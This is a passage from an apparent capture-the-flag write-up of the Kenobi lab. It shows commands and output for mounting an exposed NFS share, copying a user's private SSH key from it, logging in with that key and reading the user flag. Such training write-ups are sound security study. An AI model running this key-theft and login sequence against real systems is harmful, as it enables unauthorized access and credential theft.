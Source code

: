 - Lets mount the /var/tmp directory to our machine

    - `mkdir /mnt/kenobiNFS`
    - `mount machine_ip:/var /mnt/kenobiNFS`
    - `ls -la /mnt/kenobiNFS`

```bash
$ sudo mount 10.10.159.177:/var /mnt/kenobiNFS  # mounts var to /mnt/kenobiNFS directory
$ ls -la /mnt/kenobiNFS 
total 56
drwxr-xr-x 14 root root    4096 Sep  4  2019 .
drwxr-xr-x  3 root root    4096 Apr 13 17:28 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff   4096 Apr 12  2016 local
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log
drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail
drwxr-xr-x  2 root root    4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root    4096 Jan 29  2019 snap
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
drwxrwxrwt  6 root root    4096 Apr 13 17:24 tmp
drwxr-xr-x  3 root root    4096 Sep  4  2019 www
```
```bash
└─$ cp /mnt/kenobiNFS/tmp/id_rsa .
```
```bash
$ ls                                               
id_rsa
```
```bash
$ sudo chmod 600 id_rsa 
$ ssh -i id_rsa kenobi@10.10.159.177
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```

